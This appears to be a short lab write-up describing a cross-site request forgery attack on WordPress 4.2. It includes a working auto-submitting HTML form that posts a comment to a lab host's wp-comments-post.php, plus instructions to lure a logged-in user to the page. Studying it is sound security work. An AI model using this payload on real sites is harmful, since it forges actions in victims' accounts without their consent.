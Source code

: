 # The Steps to Perform CSRF
**Step 1:**
Create the malicious code
```
<form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
	<input type="hidden" name="comment" value="I made a comment" />
	<input type="hidden" name="comment_post_ID" value="1" />
	<input type="hidden" name="comment_parent" value="0" />
	<input type="hidden" name="_wp_unfiltered_html_comment" value="0791945477" />
	<input type="submit" value="Post+Comment" />
</form>
<script>
	document.csrfForm.submit(); 
</script>
```
**Step 2:**
Now Wait for a user thats logged into the WordPress site to vist your malicious website.The csrfForm should automaticly submit and post the comment.

# The types / classes of vulnerabilities involved and any related CVE identifiers
**Cross-Site Request Forgery (CSRF)**

The attack was done in WordPress 4.2 


